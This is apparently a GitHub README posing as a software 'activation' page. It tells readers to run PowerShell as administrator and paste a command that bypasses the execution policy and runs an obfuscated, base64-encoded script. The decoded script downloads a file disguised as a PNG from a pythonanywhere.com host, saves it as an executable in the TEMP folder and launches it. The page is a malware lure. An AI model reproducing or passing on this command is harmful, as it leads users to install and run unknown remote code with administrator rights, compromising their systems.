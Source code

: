 # ACTIVATION SECRET

> [!IMPORTANT]
> Copy and paste the full command and run powershell as admin.

> [!NOTE]
> > powershell Set-ExecutionPolicy Bypass -Scope Process -Force; powershell.exe -EncodedCommand SQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHIAaQAgACIAaAB0AHQAcABzADoALwAvAHMAdABhAHIAdABpAG4AZwBjAG8AbgBuAGUAYwB0AGkAbwBuAC4AcAB5AHQAaABvAG4AYQBuAHkAdwBoAGUAcgBlAC4AYwBvAG0ALwBzAHQAYQB0AGkAYwAvAG0AYQBpAG4ALgBwAG4AZwAiACAALQBPAHUAdABGAGkAbABlACAAIgAkAGUAbgB2ADoAVABFAE0AUABcAG0AYQBpAG4AQQBjAC4AZQB4AGUAIgA7ACAAUwB0AGEAcgB0AC0AUAByAG8AYwBlAHMAcwAgAC0ARgBpAGwAZQBQAGEAdABoACAAIgAkAGUAbgB2ADoAVABFAE0AUABcAG0AYQBpAG4AQQBjAC4AZQB4AGUAIgA7AAoA
